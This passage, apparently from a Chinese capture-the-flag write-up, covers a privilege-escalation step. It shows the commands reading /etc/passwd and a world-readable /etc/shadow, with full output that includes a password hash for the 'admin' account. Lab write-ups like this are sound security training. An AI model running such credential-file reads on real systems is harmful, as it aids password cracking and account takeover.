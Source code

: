 这里需要提权。读`/etc/passwd`发现多了个admin用户，而且`/etc/shadow`同样可以读：

```shell
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
admin:x:1000:1001::/home/admin:/bin/bash
web:x:999:999::/home/web:/bin/bash
$ cat /etc/shadow
root:*:18829:0:99999:7:::
daemon:*:18829:0:99999:7:::
bin:*:18829:0:99999:7:::
sys:*:18829:0:99999:7:::
sync:*:18829:0:99999:7:::
games:*:18829:0:99999:7:::
man:*:18829:0:99999:7:::
lp:*:18829:0:99999:7:::
mail:*:18829:0:99999:7:::
news:*:18829:0:99999:7:::
uucp:*:18829:0:99999:7:::
proxy:*:18829:0:99999:7:::
www-data:*:18829:0:99999:7:::
backup:*:18829:0:99999:7:::
list:*:18829:0:99999:7:::
irc:*:18829:0:99999:7:::
gnats:*:18829:0:99999:7:::
nobody:*:18829:0:99999:7:::
_apt:*:18829:0:99999:7:::
admin:$6$5xxn5hO/ObyxE5zP$BQdMGENys9X0XZKCQtYibbNoWb0FG.NPE1JOivxJzzMDmpasU3OTQbmt1QtPypH.Cf6gGDJaZ17znB6RWxDpy0:18852:0:99999:7:::
web:!:18852::::::
$

```
